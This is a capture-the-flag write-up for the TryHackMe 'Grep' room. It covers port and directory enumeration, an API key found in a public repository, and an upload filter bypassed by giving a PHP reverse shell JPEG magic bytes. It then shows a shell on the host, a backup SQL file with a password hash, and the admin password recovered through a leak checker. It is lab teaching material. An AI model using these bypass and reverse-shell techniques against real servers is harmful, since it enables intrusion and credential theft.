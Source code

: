 ```yaml
---
title: "Grep"
date: 2025-02-20
image: /assets/img/tryhackme/Grep/Grep_image.jpg
description: Writeup of the TryHackMe-CTF Grep
categories: [Tryhackme, Easy]
tags: [linux, web]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Grep</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>A challenge that tests your reconnaissance and OSINT skills.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/room/greprtp">https://tryhackme.com/room/greprtp</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Grep.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.28.42            
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 05:01 EST
  Nmap scan report for 10.10.28.42
  Host is up (0.042s latency).
  Not shown: 65531 closed tcp ports (conn-refused)
  PORT      STATE SERVICE
  22/tcp    open  ssh
  80/tcp    open  http
  443/tcp   open  https
  51337/tcp open  unknown

  Nmap done: 1 IP address (1 host up) scanned in 14.13 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,80,443,51337 10.10.28.42
  Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-02-20 05:04 EST
  Nmap scan report for 10.10.28.42
  Host is up (0.042s latency).

  PORT      STATE SERVICE  VERSION
  22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
  | ssh-hostkey: 
  |   3072 08:d9:c8:27:bc:25:ac:20:18:38:da:b7:bb:dd:12:17 (RSA)
  |   256 e9:9c:bd:70:39:8e:86:d0:30:aa:83:49:be:5b:b7:3c (ECDSA)
  |_  256 14:ec:b2:de:68:df:bb:89:75:ba:48:cf:b2:2c:b2:2c (ED25519)
  80/tcp    open  http     Apache httpd 2.4.41 ((Ubuntu))
  |_http-title: Apache2 Ubuntu Default Page: It works
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  443/tcp   open  ssl/http Apache httpd 2.4.41
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  | tls-alpn: 
  |_  http/1.1
  | ssl-cert: Subject: commonName=grep.thm/organizationName=SearchME/stateOrProvinceName=Some-State/countryName=US
  | Not valid before: 2023-06-14T13:03:09
  |_Not valid after:  2024-06-13T13:03:09
  |_ssl-date: TLS randomness does not represent time
  |_http-title: 403 Forbidden
  51337/tcp open  http     Apache httpd 2.4.41
  |_http-title: 400 Bad Request
  |_http-server-header: Apache/2.4.41 (Ubuntu)
  Service Info: Host: ip-10-10-28-42.eu-west-1.compute.internal; OS: Linux; CPE: cpe:/o:linux:linux_kernel

  Service detection performed. Please report any incorrect results at https://nmap.org/submit/
  Nmap done: 1 IP address (1 host up) scanned in 26.93 seconds
```
From here I proceeded the analysis port by port.

## Port 443 Analysis

I started by checking the certificate and found a domain name `grep.thm`:

![Certifcate domain](/assets/img/tryhackme/Grep/thm_grep_1.jpg)

After adding it into my `hosts` file I was able to access the webpage. The website had two options `Register` and `Login`, so I went for `Register`. After I inserted something random I got an error message:

![Original API key](/assets/img/tryhackme/Grep/thm_grep_2.jpg)

Since projects are mostly hosted on github I searched for the `SearchME` and found a repository that appeared to be related to the CTF. I examined `register.php` for modifications, where the valid API key was likely stored. After a while I found the valid key:

![Registration Process](/assets/img/tryhackme/Grep/thm_grep_3.jpg)

By intercepting the registration process, I was able to modify the API key, successfully register, and retrieve the flag. I continued with a directory enumeration to gain more insights into the application:

```bash
$ gobuster dir --no-tls-validation --url https://grep.thm/public/html/ --wordlist /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt
  ===============================================================
  Gobuster v3.6
  by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
  ===============================================================
  [+] Url:                     https://grep.thm/public/html/
  [+] Method:                  GET
  [+] Threads:                 10
  [+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
  [+] Negative Status codes:   404
  [+] User Agent:              gobuster/3.6
  [+] Extensions:              html,php,txt
  [+] Timeout:                 10s
  ===============================================================
  Starting gobuster in directory enumeration mode
  ===============================================================
  /.html                (Status: 403) [Size: 274]
  /.php                 (Status: 403) [Size: 274]
  /index.php            (Status: 200) [Size: 1471]
  /login.php            (Status: 200) [Size: 1981]
  /register.php         (Status: 200) [Size: 2346]
  /admin.php            (Status: 403) [Size: 0]
  /upload.php           (Status: 403) [Size: 0]
  /logout.php           (Status: 200) [Size: 154]
  /dashboard.php        (Status: 403) [Size: 0]
```

The `/upload.php` endpoint seemed interesting, but when I tried to upload a PHP reverse shell I, encountered the following error message:

```json
{"error":"Invalid file type. Only JPG, JPEG, PNG, and BMP files are allowed."}
```

To bypass the filter I changed the magic numbers of the php reverse shell using <a href="https://hexed.it/">hexed.it</a> to look like a JPG file:

```bash
$ file shell.php
shell.php: JPEG image data
$ xxd shell.php | head
00000000: ffd8 ffe0 0010 4a46 3c3f 7068 700a 2f2f  ......JF<?php.//
00000010: 2070 6870 2d72 6576 6572 7365 2d73 6865   php-reverse-she
00000020: 6c6c 202d 2041 2052 6576 6572 7365 2053  ll - A Reverse S
```

After uploading the file again the response looks good: 

```json
{"message":"File uploaded successfully."}
```

Through manual exploration, I located the upload directory and the uploaded PHP file at:

```html
https://grep.thm/api/uploads/
```

I started the reverse shell and received the connection. Since a flag wasn't required for this CTF I proceeded in the website directory. My focus was on database credentials or similar information, as I needed to find the admin's email and password. In the website directory I found a backup directory with a sql script:

```bash
www-data@ip-10-10-8-62:/var/www/backup$ ls
	users.sql
```

In the script, I found an interesting section:

```sql
[...]
INSERT INTO `users` (`id`, `username`, `password`, `email`, `name`, `role`) VALUES
(1, 'test', '$2y$10$dE6VAdZJCN4repNAFdsO2ePDr3StRdOhUJ1O/41XVQg91qBEBQU3G', 'test@grep.thm', 'Test User', 'user'),
(2, 'admin', '[removed]', '[removed]', 'Admin User', 'admin');
[...]
```

I saved the admin password hash to a file and ran Hashcat to crack it. After some time, I aborted the process and moved on. I checked the last port which I didn't had a look on. In the certificate was another URL called: `leakchecker.grep.thm`. After adding the URL to the hosts file, I was able to access the site. The application asked for an email adress. I entered the previously found email and retrieved the password:

![Leakchecker](/assets/img/tryhackme/Grep/thm_grep_4.jpg)

solved! :)

